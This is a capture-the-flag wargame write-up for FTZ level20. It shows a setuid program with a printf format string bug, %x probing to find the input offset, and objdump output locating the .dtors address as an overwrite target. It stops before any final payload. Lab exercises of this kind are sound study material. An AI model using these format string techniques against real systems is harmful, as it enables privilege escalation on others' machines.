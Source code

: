 # Level20 (Final Level)

## This level's goal
-

***

```
[level20@ftz level20]$ ls -l
-rwsr-sr-x    1 clear    clear       11777 Jun 18  2008 attackme
-rw-r-----    1 root     level20       133 May 13  2002 hint

[level20@ftz level20]$ cat hint

#include <stdio.h>
main(int argc,char **argv)
{ 
  char bleh[80];
  setreuid(3101,3101);
  fgets(bleh,79,stdin);
  printf(bleh);
}
```

In the hint, I could see the printf(bleh) that I might exploit with FSB.

```
[level20@ftz level20]$ ./attackme
AAA
AAA
[level20@ftz level20]$ ./attackme
%x
4f
[level20@ftz level20]$ ./attackme
AAAA %x %x %x %x
AAAA 4f 4212ecc0 4207a750 41414141
```

4f means 79 in decimal, it seeams that I could exploit iu fourth.

```
[level20@ftz level20]$ gdb tmp/attackme
(gdb) disass main
No symbol "main" in current context.
```

I could not see the symbol, so I will get information with objdump.

```
[level20@ftz level20]$ objdump -h attackme

attackme:     file format elf32-i386

Sections:
Idx Name          Size      VMA       LMA       File off  Algn

 18 .dtors        00000008  08049594  08049594  00000594  2**2
                  CONTENTS, ALLOC, LOAD, DATA
```

__DOTR-List's address is 0x08049594 which I will exploit with this.



